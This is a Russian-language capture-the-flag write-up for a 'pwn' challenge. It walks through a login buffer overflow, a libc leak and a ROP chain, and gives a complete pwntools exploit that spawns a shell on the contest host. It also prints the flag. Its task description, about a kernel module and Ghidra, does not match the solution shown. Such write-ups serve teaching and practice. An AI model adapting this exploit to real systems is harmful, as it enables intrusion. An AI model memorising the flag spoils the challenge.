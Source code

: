 # Люкс | medium | pwn

## Информация
> После подозрительной активоности на сервере, с ядром что-то не так...

## Выдать участинкам
файл [luxury](public/luxury)

## Описание
Для решения надо обратить внимание на то, что в одном из модулей ядра была другая подпись и через такие утилиты как ghidra/IDA найти `flag` и декодировать из ASCII.

## Решение
Открываем бинарь, анализируем его. Флаг нигде не выводится, значит надо как-то получить шелл.

На этапе логинизации видим, что можно переполнить одну из переменных

![alt text](solve/image-1.png)

(**s1 переполняется**)

Канарейка отсутвует, значит можем перетереть адрес возврата и составить ROP цепочку на execve("/bin/sh")

Чтобы это сделать нам нужны гаджеты и база libc

Базу можно найти с помощью функции админа, там выводятся адреса функций (берем последние три цифры и ищем libc на libc.rip)

![alt text](solve/image-2.png)

(**Вывод адресов**)

После нахождения версии libc можно ее скачать и начать писать сплоит

Алгоритм будет следующим: сначала закидываем номер системного вызова, затем очищаем rsi, rdx, после закидываем в rdi адрес /bin/sh и делаем syscall

Гаджеты можно найти в libc с помощью утилиты ROPgadget

Код сплоита:

```python
from pwn import *

libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
exe = ELF("./luxury")
# s = process("./luxury")
s = remote("tasks.polyctf.ru", 30006)

s.recvuntil(b": ")
s.sendline(b"admin")
s.recvuntil(b": ")
s.sendline(b"V3rY_sTroNg_p1ss")

s.recvuntil(b"> ")
s.sendline(b"1")

s.recvuntil(b"-> ")

leak = s.recvline().strip()

# OFFSET_PRINTF = libc.symbols["printf"]
OFFSET_PRINTF = 0x525b0
LIBC_BASE = int(leak, 16) - OFFSET_PRINTF

print(hex(LIBC_BASE))

s.recvuntil(b"> ")
s.sendline(b"5")

s.recvuntil(b": ")
s.sendline(b"AAAA")

# bin_sh = 0x197e34
bin_sh = 0x196031
pop_rdi = 0x00000000000277e5
pop_rsi = 0x0000000000028f99
pop_rax = 0x000000000003f197
pop_rdx = 0x00000000000fde7d
syscall = 0x0000000000026428

ROP = p64(LIBC_BASE + pop_rax)
ROP += p64(0x3b)
ROP += p64(LIBC_BASE + pop_rdi)
ROP += p64(LIBC_BASE + bin_sh)
ROP += p64(LIBC_BASE + pop_rsi)
ROP += p64(0x0)
ROP += p64(LIBC_BASE + pop_rdx)
ROP += p64(0x0)
ROP += p64(LIBC_BASE + syscall)

s.sendline(b"A" * 32 + p64(0xCAFEBABE) + ROP)

s.interactive()


```
 
## Флаг
`PolyCTF{N0_R3tUrn_t0_hOm3}`
